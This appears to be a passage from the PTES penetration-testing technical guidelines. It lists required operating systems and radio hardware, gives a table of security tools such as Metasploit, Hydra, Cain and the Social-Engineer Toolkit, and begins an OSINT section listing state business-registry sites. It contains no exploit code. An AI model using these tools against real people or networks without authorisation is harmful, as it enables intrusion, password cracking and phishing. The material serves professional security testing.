 .. _technical_guidelines:


#########################
PTES Technical Guidelines
#########################

This section is designed to be the PTES technical guidelines that help
define certain procedures to follow during a penetration test. Something
to be aware of is that these are only baseline methods that have been
used in the industry. They will need to be continuously updated and
changed upon by the community as well as within your own standard.
Guidelines are just that, something to drive you in a direction and help
during certain scenarios, but not an all encompassing set of
instructions on how to perform a penetration test. Think outside of the
box.

Tools Required
--------------

Selecting the tools required during a penetration test depends on
several factors such as the type and the depth of the engagement. In
general terms, the following tools are mandatory to complete a
penetration test with the expected results.

Operating Systems
~~~~~~~~~~~~~~~~~

Selecting the operating platforms to use during a penetration test is
often critical to the successfully exploitation of a network and
associated system. As such it is a requirement to have the ability to
use the three major operating systems at one time. This is not possible
without virtualization.

MacOS X
^^^^^^^

MacOS X is a BSD-derived operating. With standard command shells (such
as *sh*, *csh*, and *bash*) and native network utilities that can be
used during a penetration test (including *telnet*, *ftp*, *rpcinfo*,
*snmpwalk*, *host*, and *dig*) it is the system of choice and is the
underlying host system for our penetration testing tools. Since this is
a hardware platform as well, this makes the selection of specific
hardware extremely simple and ensures that all tools will work as
designed.

VMware Workstation
^^^^^^^^^^^^^^^^^^

VMware Workstation is an absolute requirement to allow multiple
instances of operating systems easily on a workstation. VMware
Workstation is a fully supported commercial package, and offers
encryption capabilities and snapshot capabilities that are not available
in the free versions available from VMware. Without the ability to
encrypt the data collected on a VM confidential information will be at
risk, therefore versions that do not support encryption are not to be
used. The operating systems listed below should be run as a guest system
within VMware.

Linux
'''''

Linux is the choice of most security consultants. The Linux platform is
versatile, and the system kernel provides low-level support for
leading-edge technologies and protocols. All mainstream IP-based attack
and penetration tools can be built and run under Linux with no problems.
For this reason, BackTrack is the platform of choice as it comes with
all the tools required to perform a penetration test.

Windows XP/7
''''''''''''

Windows XP/7 is required for certain tools to be used. Many commercial
tools or Microsoft specific network assessment and penetration tools are
available that run cleanly on the platform.

Radio Frequency Tools
~~~~~~~~~~~~~~~~~~~~~

Frequency Counter
^^^^^^^^^^^^^^^^^

A Frequency Counter should cover from 10Hz- 3 GHz. A good example of a
reasonably priced frequency counter is the MFJ-886 Frequency Counter.

Frequency Scanner
^^^^^^^^^^^^^^^^^

A scanner is a radio receiver that can automatically tune, or scan, two
or more discrete frequencies, stopping when it finds a signal on one of
them and then continuing to scan other frequencies when the initial
transmission ceases. These are not to be used in Florida, Kentucky, or
Minnesota unless you are a person who holds a current amateur radio
license issued by the Federal Communications Commission. The required
hardware is the Uniden BCD396T Bearcat Handheld Digital Scanner or
PSR-800 GRE Digital trunking scanner.

Spectrum Analyzer
^^^^^^^^^^^^^^^^^

A spectrum analyzer is a device used to examine the spectral composition
of some electrical, acoustic, or optical waveform. A spectrum analyzer
is used to determine whether or not a wireless transmitter is working
according to federally defined standards and is used to determine, by
direct observation, the bandwidth of a digital or analog signal. A good
example of a reasonably priced spectrum analyzer is the Kaltman
Creations HF4060 RF Spectrum Analyzer.

802.11 USB adapter
^^^^^^^^^^^^^^^^^^

An 802.11 USB adapter allow for the easy connection of a wireless
adapter to the penetration testing system. There are several issues with
using something other than the approved USB adapter as not all of them
support the required functions. The required hardware is the Alfa
AWUS051NH 500mW High Gain 802.11a/b/g/n high power Wireless USB.

External Antennas
^^^^^^^^^^^^^^^^^

External antennas come in a variety of shapes, based upon the usage and
with a variety of connectors. All external antennas must have RP-SMA
connectors that are compatible with the Alfa. Since the Alfa comes with
an Omni-directional antenna, we need to obtain a directional antenna.
The best choice is a panel antenna as it provides the capabilities
required in a package that travels well. The required hardware is the
L-com 2.4 GHz 14 dBi Flat Panel Antenna with RP-SMA connector. A good
magnetic mount Omni-directional antenna such as the L-com 2.4 GHz/900
MHz 3 dBi Omni Magnetic Mount Antenna with RP-SMA Plug Connector is a
good choice.

USB GPS
^^^^^^^

A GPS is a necessity to properly perform an RF assessment. Without this
it's simply impossible to determine where and how far RF signals are
propagating. There are numerous options are available, therefore you
should look to obtain a USB GPS that is supported on operating system
that you are using be that Linux, Windows and Mac OS X.

Software
~~~~~~~~

The software requirements are based upon the engagement scope, however
we've listed some commercial and open source software that could be
required to properly conduct a full penetration test.

+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| \ **Software**\                      | \ **URL**\                                                                       | \ **Description**\                                                                                                                                                                                                                                                                                                                                                                                                       | \ **Windows Only**\    |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Maltego                              | http://www.paterva.com/web5                                                      | The defacto standard for mining data on individuals and companies. Comes in a free community version and paid version.                                                                                                                                                                                                                                                                                                   |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Nessus                               | http://tenable.com/products/nessus                                               | A vulnerabilty scanning tool available in paid and free versions. Nessus is useful for finding and documenting vulnerabilities mostly from the inside of a given network.                                                                                                                                                                                                                                                |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| IBM AppScan                          | http://www-01.ibm.com/software/awdtools/appscan                                  | IBM's automated Web application security testing suite.                                                                                                                                                                                                                                                                                                                                                                  | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| eEye Retina                          | http://www.eeye.com/Products/Retina.aspx                                         | Retina is an an automated network vulnerability scanner that can be managed from a single web-based console. It can be used in conjunction with Metasploit where if an exploit exists in Metasploit, it can be launched directly from Retina to verify that the vulnerability exists.                                                                                                                                    |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Nexpose                              | http://www.rapid7.com                                                            | Nexpose is a vulnerability scanner from the same company that brings you Metasploit. Available in both free and paid versions that differ in levels of support and features.                                                                                                                                                                                                                                             |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| OpenVAS                              | http://www.openvas.org                                                           | OpenVAS is a vulnerability scanner that originally started as a fork of the Nessus project. The actual security scanner is accompanied with a daily updated feed of Network Vulnerability Tests (NVTs), over 20,000 in total (as of January 2011)                                                                                                                                                                        |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| HP WebInspect                        | https://www.fortify.com/products/web_inspect.html                                | HP WebInspect performs web application security testing and assessment for complex web applications. Supports JavaScript, Flash, Silverlight and others.                                                                                                                                                                                                                                                                 | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| HP SWFScan                           | https://h30406.www3.hp.com/campaigns/2009/wwcampaign/1-5TUVE/index.php?key=swf   | HP SWFScan is a free tool developed by HP Web Security Research Group to automatically find security vulnerabilities in applications built on the Flash platform. Useful for decompiling flash apps and finding hard-coded credentials, etc.                                                                                                                                                                             | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Backtrack Linux                      | `1 <http://www.backtrack-linux.org>`__                                           | One of the most complete penetration testing Linux distributions available. Includes many of the more popular free pentesting tools but is based on Ubuntu so it's also easily expandable. Can be run on Live CD, USB key, VM or installed on a hard drive.                                                                                                                                                              |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| SamuraiWTF (Web Testing Framework)   | http://samurai.inguardians.com                                                   | A live Linux distribution built for the specific purpose of web application scanning. Includes tools such as Fierce, Maltego, WebScarab, BeEF any many more tools specific to web application testing.                                                                                                                                                                                                                   |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| SiteDigger                           | http://www.mcafee.com/us/downloads/free-tools/sitedigger.aspx                    | SiteDigger 3.0 is a free tool that runs on Windows. It searches Google’s cache to look for vulnerabilities, errors, configuration issues, proprietary information, and interesting security nuggets on web sites.                                                                                                                                                                                                        | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| FOCA                                 | http://www.informatica64.com/DownloadFOCA                                        | FOCA is a tool that allows you to find out more about a website by (amongst other things) analysing the metadata in any documents it makes available.                                                                                                                                                                                                                                                                    | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| THC IPv6 Attack Toolkit              | http://www.thc.org/thc-ipv6                                                      | The largest single collection of tools designed to exploit vulnerabilities in the IPv6 and ICMP6 protocols.                                                                                                                                                                                                                                                                                                              |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| THC Hydra                            | http://thc.org/thc-hydra/                                                        | Hydra is a very fast network logon brute force cracker which can attack many different services and resources.                                                                                                                                                                                                                                                                                                           | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Cain                                 | http://www.oxid.it/cain.html                                                     | Cain & Abel is a password recovery tool that runs on Windows. It allows easy recovery of various kind of passwords by sniffing the network, cracking encrypted passwords using Dictionary, Brute-Force and Cryptanalysis attacks, recording VoIP conversations, decoding scrambled passwords, recovering wireless network keys, revealing password boxes, uncovering cached passwords and analyzing routing protocols.   | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| cree.py                              | http://ilektrojohn.github.com/creepy/                                            | cree.py gathers geolocation related information from social networking platforms and image hosting services. Then the information is presented in a map where all the retrieved data is shown accompanied with relevant information (i.e. what was posted from that specific location) to provide context.                                                                                                               |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| inSSIDer                             | http://www.metageek.net/products/inssider                                        | inSSIDer is a free gui-based wifi discovery and troubleshooting tool for Windows                                                                                                                                                                                                                                                                                                                                         | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Kismet Newcore                       | http://www.kismetwireless.net                                                    | Kismet is an 802.11 layer2 wireless network detector, sniffer, and intrusion detection system. Kismet passively collects packets from both named and hidden networks with any wireless adapter that supports raw monitor mode.                                                                                                                                                                                           |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Rainbow Crack                        | http://project-rainbowcrack.com                                                  | Rainbow Crack is a password cracker that will run a pre-computed rainbow table against a given series of hashes.                                                                                                                                                                                                                                                                                                         |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| dnsenum                              | http://code.google.com/p/dnsenum                                                 | Think of dnsenum as a supercharged version of a whois query. It not only discovers all of the dns records but it goes a step further and attempts to use google to discover subdomains, discovers BIND versions and more.                                                                                                                                                                                                |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| dnsmap                               | http://code.google.com/p/dnsmap                                                  | Dnsmap is a passive dns mapper that is used for subdomain bruteforce discovery.                                                                                                                                                                                                                                                                                                                                          |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| dnsrecon                             | http://www.darkoperator.com/tools-and-scripts/                                   | DNS enumeration script written in ruby for performing TLD expansion, SRV record enumeration, host and subdomain brute force, zone transfer, reverse lookup and general record identification.                                                                                                                                                                                                                            |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| dnstracer                            | http://www.mavetju.org/unix/dnstracer.php                                        | dnstracer determines where a given Domain Name Server (DNS) gets its information from and follows the chain of DNS servers back to the servers which know the data.                                                                                                                                                                                                                                                      |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| dnswalk                              | http://sourceforge.net/projects/dnswalk                                          | Dnswalk is a DNS debugger. It performs zone transfers of specified domains, and checks the database in numerous ways for internal consistency, as well as accuracy.                                                                                                                                                                                                                                                      |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Fierce                               | http://ha.ckers.org/fierce                                                       | Fierce domain scan discovers non-contiguous IP ranges of a network.                                                                                                                                                                                                                                                                                                                                                      |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Fierce2                              | http://trac.assembla.com/fierce/                                                 | Fierce 2 is an updated version that is maintained by a new group of developers.                                                                                                                                                                                                                                                                                                                                          |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| FindDomains                          | http://code.google.com/p/finddomains                                             | FindDomains is a multithreaded search engine discovery tool that will be very useful for penetration testers dealing with discovering domain names/web sites/virtual hosts which are located on too many IP addresses. Provides a console interface so you can easily integrate this tool to your pentesting automation system.                                                                                          | **\***                 |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| HostMap                              | http://hostmap.lonerunners.net                                                   | hostmap is a free and automatic tool that enables the discovery of all hostnames and virtual hosts on a given IP address.                                                                                                                                                                                                                                                                                                |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| URLcrazy                             | http://www.morningstarsecurity.com/research/urlcrazy                             | URLCrazy is a domainname typo generator. This will allow you to find squatted domains related to your target company and possibly generate some of your own.                                                                                                                                                                                                                                                             |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| theHarvester                         | http://www.edge-security.com/theHarvester.php                                    | theHarvester is a tool for gathering e-mail accounts, user names and hostnames/subdomains from different public sources like search engines and PGP key servers.                                                                                                                                                                                                                                                         |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| The Metasploit Framework             | http://metasploit.com                                                            | Metasploit is an ever-growing collection of remote exploits and post exploitation tools for all platforms. You will want to constantly run svn updates on this tool since new features and exploits are added nearly daily. Metasploit is both incredibly powerful and complex. For further guidance, check out this book http://nostarch.com/metasploit.htm .                                                           |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| The Social-Engineer Toolkit (SET)    | http://www.secmaniac.com/download/                                               | The Social-Engineer Toolkit (SET) is specifically designed to perform advanced attacks against the human element. Amongst other things, SET allows you to craft malcious emails and dummy websites based on legitimate ones to compliment a social engineering attack.                                                                                                                                                   |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+
| Fast-Track                           | http://www.secmaniac.com/download/                                               | Fast-Track is an automated pentesting tool suite. Many of the issues Fast-Track exploits are due to improper sanitizing of client-side data within web applications, patch management, or lack of hardening techniques. It runs on Linux and depends on Metasploit 3.                                                                                                                                                    |                        |
+--------------------------------------+----------------------------------------------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------+

--------------

Intelligence Gathering
----------------------

Intelligence Gathering is the phase where data or "intelligence" is
gathered to assist in guiding the assessment actions. At the broadest
level this intelligence gathering includes information about employees,
facilities, products and plans. Within a larger picture this
intelligence will include potentially secret or private "intelligence"
of a competitor, or information that is otherwise relevant to the
target.

OSINT
~~~~~

Open Source Intelligence (OSINT) in the simplest of terms is locating,
and analyzing publically (open) available sources of information. The
key component here is that this intelligence gathering process has a
goal of producing current and relevant information that is valuable to
either an attacker or competitor. For the most part, OSINT is more than
simply performing web searches using various sources.

Corporate
^^^^^^^^^

Information on a particular target should include information regarding
the legal entity. Most states within the US require Corporations,
limited liability companies and limited partnerships to file with the
State division. This division serves as custodian of the filings and
maintains copies and/or certifications of the documents and filings.
This information may contain information regarding shareholders,
members, officers or other persons involved in the target entity.

+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| \ **State**\           | \ **URL**\                                                                                                                                                    |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Alabama                | `http://sos.alabama.gov/BusinessServices/NameRegistration.aspx <http://sos.alabama.gov/BusinessServices/NameRegistration.aspx>`__                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Alaska                 | `http://www.dced.state.ak.us/bsc/corps.htm <http://www.dced.state.ak.us/bsc/corps.htm>`__                                                                     |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Arizona                | `http://starpas.azcc.gov/scripts/cgiip.exe/WService=wsbroker1/main.p <http://starpas.azcc.gov/scripts/cgiip.exe/WService=wsbroker1/main.p>`__                 |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Arkansas               | `http://www.sosweb.state.ar.us/corps/incorp <http://www.sosweb.state.ar.us/corps/incorp>`__                                                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| California             | `http://kepler.sos.ca.gov/ <http://kepler.sos.ca.gov/>`__                                                                                                     |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Colorado               | `http://www.state.co.us <http://www.state.co.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Connecticut            | `http://www.state.ct.us <http://www.state.ct.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Delaware               | `http://www.state.de.us <http://www.state.de.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| District of Columbia   | `http://www.ci.washington.dc.us <http://www.ci.washington.dc.us/>`__                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Florida                | `http://www.sunbiz.org/search.html <http://www.sunbiz.org/search.html>`__                                                                                     |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Georgia                | `http://corp.sos.state.ga.us/corp/soskb/CSearch.asp <http://corp.sos.state.ga.us/corp/soskb/CSearch.asp>`__                                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Hawaii                 | `http://www.state.hi.us <http://www.state.hi.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Idaho                  | `http://www.accessidaho.org/public/sos/corp/search.html?SearchFormstep=crit <http://www.accessidaho.org/public/sos/corp/search.html?SearchFormstep=crit>`__   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Illinois               | `http://www.ilsos.gov/corporatellc <http://www.ilsos.gov/corporatellc>`__                                                                                     |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Indiana                | `http://secure.in.gov/sos/bus_service/online_corps/default.asp <http://secure.in.gov/sos/bus_service/online_corps/default.asp>`__                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Iowa                   | `http://www.state.ia.us <http://www.state.ia.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Kansas                 | `http://www.accesskansas.org/apps/corporations.html <http://www.accesskansas.org/apps/corporations.html>`__                                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Kentucky               | `http://ukcc.uky.edu/\ ~vitalrec <http://ukcc.uky.edu/~vitalrec>`__                                                                                           |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Louisiana              | `http://www.sec.state.la.us/crpinq.htm <http://www.sec.state.la.us/crpinq.htm>`__                                                                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Maine                  | `http://www.state.me.us/sos/cec/corp/ucc.htm <http://www.state.me.us/sos/cec/corp/ucc.htm>`__                                                                 |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Maryland               | `http://sdatcert3.resiusa.org/ucc-charter <http://sdatcert3.resiusa.org/ucc-charter>`__                                                                       |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Massachusetts          | `http://ucc.sec.state.ma.us/psearch/default.asp <http://ucc.sec.state.ma.us/psearch/default.asp>`__                                                           |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Michigan               | `http://www.cis.state.mi.us/bcs_corp/sr_corp.asp <http://www.cis.state.mi.us/bcs_corp/sr_corp.asp>`__                                                         |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Minnesota              | `http://www.state.mn.us/ <http://www.state.mn.us/>`__                                                                                                         |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Mississippi            | `http://www.sos.state.ms.us/busserv/corpsnap <http://www.sos.state.ms.us/busserv/corpsnap>`__                                                                 |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Missouri               | `http://www.state.mo.us <http://www.state.mo.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Montana                | `http://sos.state.mt.us <http://sos.state.mt.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Nebraska               | `http://www.sos.state.ne.us/htm/UCCmenu.htm <http://www.sos.state.ne.us/htm/UCCmenu.htm>`__                                                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Nevada                 | `http://sandgate.co.clark.nv.us:8498/cicsRecorder/ornu.htm <http://sandgate.co.clark.nv.us:8498/cicsRecorder/ornu.htm>`__                                     |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| New Hampshire          | `http://www.state.nh.us <http://www.state.nh.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| New Jersey             | `http://www.state.nj.us/treasury/revenue/searchucc.htm <http://www.state.nj.us/treasury/revenue/searchucc.htm>`__                                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| New Mexico             | `http://www.sos.state.nm.us/UCC/UCCSRCH.HTM <http://www.sos.state.nm.us/UCC/UCCSRCH.HTM>`__                                                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| New York               | `http://wdb.dos.state.ny.us/corp_public/corp_wdb.corp_search_inputs.show <http://wdb.dos.state.ny.us/corp_public/corp_wdb.corp_search_inputs.show>`__         |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
